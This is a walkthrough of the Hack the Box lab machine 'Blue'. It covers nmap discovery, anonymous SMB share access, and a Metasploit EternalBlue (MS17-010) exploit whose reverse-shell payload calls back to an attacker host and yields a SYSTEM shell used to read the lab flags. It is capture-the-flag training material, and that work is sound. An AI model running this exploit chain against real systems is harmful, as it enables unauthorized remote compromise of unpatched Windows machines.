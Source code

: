 ```yaml
---
layout: post
title:  "Hack the Box - Blue"
date:   2016-09-14 15:07:19
categories: [walkthrough, htb]
comments: false
---
```

![HTB-Blue](/img/htb/blue/blue.png)

An easy box by ch4p.  Great for getting to know metasploit, or practice if you want to find and modify the exploit from exploit-db.com.

<!--more-->
## Host Discovery

Starting this one off with a light nmap scan to see if there is anything interesting on the standard 1000 ports.

{% highlight bash %}
┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # nmap -sV 10.10.10.40
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-06 10:42 MST
Nmap scan report for 10.10.10.40
Host is up (0.072s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 77.60 seconds

┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali #
{% endhighlight %}

Sure enough, SMB is open on the system, and based on the name of the box chances are this is an EternalBlue (MS17_010) exploitable box.

## Enumeration/Port Mapping

Lets see if you can login as a guest by attempting to list and then login to a share without specifying a user.

{% highlight bash %}
┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # smbclient -L //10.10.10.40
Enter WORKGROUP\root's password:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	Share           Disk      
	Users           Disk      
SMB1 disabled -- no workgroup available

┌[ ~/hackthebox/boxes/blue-10.10.10.40 ] [master ?]
└─> root@kali # smbclient  //10.10.10.40/Users
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Jul 21 00:56:23 2017
  ..                                 DR        0  Fri Jul 21 00:56:23 2017
  Default                           DHR        0  Tue Jul 14 01:07:31 2009
  desktop.ini                       AHS      174  Mon Jul 13 22:54:24 2009
  Public                             DR        0  Tue Apr 12 01:51:29 2011

		8362495 blocks of size 4096. 3842276 blocks available
smb: \>
{% endhighlight %}

Sure enough we can get into the Users share without any real credentials.  On to exploitation!

## Exploitation - MS17-010 EternalBLue

Now, this is the non OSCP friendly way to do it, but chances are this is the way most folks will go ahead and do it.  Using Metasploit and the `exploit/windows/smb/ms17_010_eternalblue)` built in we should be able to get a system shell.

{% highlight bash %}
msf5 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.17      yes       The listen address (an interface may be specified)
   LPORT     443             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf5 exploit(windows/smb/ms17_010_eternalblue) >
{% endhighlight %}

Payload all set now we just run:

{% highlight bash %}
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.17:443
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.14.17:443 -> 10.10.10.40:49158) at 2020-02-06 10:21:13 -0700
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

C:\Windows\system32>cd \users\administrator\desktop
cd \users\administrator\desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
ff54************************e717

C:\Users\haris>cd \Users\haris\desktop
cd \Users\haris\desktop

C:\Users\haris\Desktop>type user.txt
type user.txt
4c54***********************deea9
C:\Users\haris\Desktop>
{% endhighlight %}

That is all there is to it.
